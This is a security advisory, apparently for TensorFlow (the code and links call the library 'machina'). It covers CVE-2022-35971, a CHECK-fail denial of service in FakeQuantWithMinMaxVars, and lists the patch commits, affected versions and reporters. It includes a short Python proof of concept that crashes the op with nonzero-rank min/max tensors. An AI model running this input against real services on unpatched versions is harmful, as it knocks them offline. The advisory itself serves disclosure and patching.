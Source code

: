 ## TFSA-2022-103: `CHECK` fail in `FakeQuantWithMinMaxVars`

### CVE Number
CVE-2022-35971

### Impact
If `FakeQuantWithMinMaxVars` is given `min` or `max` tensors of a nonzero rank, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import machina as tf

num_bits = 8
narrow_range = False
inputs = tf.constant(0, shape=[2,3], dtype=tf.float32)
min = tf.constant(0, shape=[2,3], dtype=tf.float32)
max = tf.constant(0, shape=[2,3], dtype=tf.float32)
tf.raw_ops.FakeQuantWithMinMaxVars(inputs=inputs, min=min, max=max, num_bits=num_bits, narrow_range=narrow_range)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/machina/machina/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by:
 - Neophytos Christou, Secure Systems Labs, Brown University.
 - 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology
